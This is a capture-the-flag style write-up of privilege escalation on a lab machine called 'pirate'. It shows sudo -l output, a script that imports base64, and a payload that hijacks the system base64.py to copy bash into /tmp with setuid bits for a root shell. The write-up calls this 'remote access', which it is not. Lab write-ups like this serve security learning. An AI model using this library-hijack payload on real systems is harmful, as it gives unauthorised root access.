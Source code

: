 
We successfully logged in as john user with the password


# Privilege Escalation

john@pirate:/tmp$ sudo -l
Matching Defaults entries for john on pirate:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User john may run the following commands on pirate:
    (root) NOPASSWD: /usr/bin/python3 /opt/script.py


nah before this we found this script also , but we can't edit base64.py because we dont have permision because only john and root user only have permision to edit . As you can see the code before



```
import base64

def encode_base64(input_string):
    encoded_bytes = base64.b64encode(input_string.encode('utf-8'))
    encoded_string = encoded_bytes.decode('utf-8')
    return encoded_string

# Example usage:
original_string = "/?id=1"
encoded_string = encode_base64(original_string)

print("Original String:", original_string)
print("Encoded String:", encoded_string)
```

only id parameter base64 encode only but this code not have command so we cant priv esc with command , so we priv esc using base64.py file because on this code using import base64 so we need find base64.py file and edit

```
john@pirate:/tmp$ locate base64.py
/snap/core/16202/usr/lib/python3.5/base64.py
/snap/core/16574/usr/lib/python3.5/base64.py
/snap/core18/2812/usr/lib/python3.6/base64.py
/snap/core20/1974/usr/lib/python3.8/base64.py
/snap/core20/2105/usr/lib/python3.8/base64.py
/usr/lib/python3.10/base64.py
```

This `/usr/lib/python3.10/base64.py` directory for base64.py now we edit the file python and put this code for gain remote access as root . 

```
import os
os.system('cp /bin/bash /tmp/bash && chmod 7777 /tmp/bash')
```
